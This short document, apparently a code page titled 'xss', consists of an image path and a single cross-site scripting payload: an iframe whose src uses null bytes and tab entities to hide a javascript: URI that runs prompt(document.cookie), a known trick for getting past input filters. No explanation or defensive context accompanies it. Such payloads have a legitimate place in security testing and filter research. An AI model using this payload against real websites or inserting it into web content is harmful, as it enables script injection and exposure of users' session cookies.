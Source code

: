 # xss



```

<iframe %00 src="&Tab;javascript:prompt(document.cookie)&Tab;"%00>

















```
